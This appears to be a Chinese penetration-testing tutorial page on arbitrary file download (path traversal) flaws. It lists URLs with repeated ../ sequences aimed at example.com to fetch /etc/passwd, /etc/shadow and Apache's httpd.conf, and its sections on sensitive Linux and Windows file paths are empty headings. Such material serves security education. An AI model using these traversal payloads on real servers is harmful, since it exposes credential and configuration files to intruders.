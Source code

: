 # 14.路径遍历漏洞三

如果系统存在**任意文件下载漏洞**，那么作为一个渗透测试工程师，怎么才能够成功入侵系统呢？

> 漏洞URL：http://example.com/download?file=backup.zip

##14.1 /etc/passwd & /etc/shadow

 **/etc/passwd**和**/etc/shadow**是linux系统下的存储用户与密码的文件，虽然密码是加密过的，我们不烦尝试把它们下载下来。
 
首先，我们先使用**../**进行不断地尝试，使它指向根目录。我们可以依次使用以下路径进行尝试：
 ```http
http://example.com/download?file=../../etc/passwd
http://example.com/download?file=../../../etc/passwd
http://example.com/download?file=../../../../etc/passwd
http://example.com/download?file=../../../../../etc/passwd
http://example.com/download?file=../../../../../../etc/passwd
http://example.com/download?file=../../../../../../../etc/passwd
 ```
 
只要系统存在**任意文件下载漏洞**，且权限允许的情况下，使用不同个数的**../**不断地进行尝试，我们最终总会返回到根目录，然后下载/etc/passwd文件。

当然，有安全意识的运维人员，可能并不会为Web服务器赋予root等系统管理员权限，所以会导致我们下载失败，这时候，我们尝试下载一些低权限的文件并确认漏洞可用，假如Web应用运行在Apache下，那么我们可以肯定Apahce对其自己的配置文件必然有读权限，所以我们可以尝试下载Apache的配置文件,例如：

> http://example.com/download?file../../../../../etc/httpd/conf/httpd.conf

以下罗列以下在Linux环境下的敏感文件，由于Linux版本不尽相同，此内容仅供参考。


##14.2 Linux敏感文件路径


##14.3 Windows敏感文件路径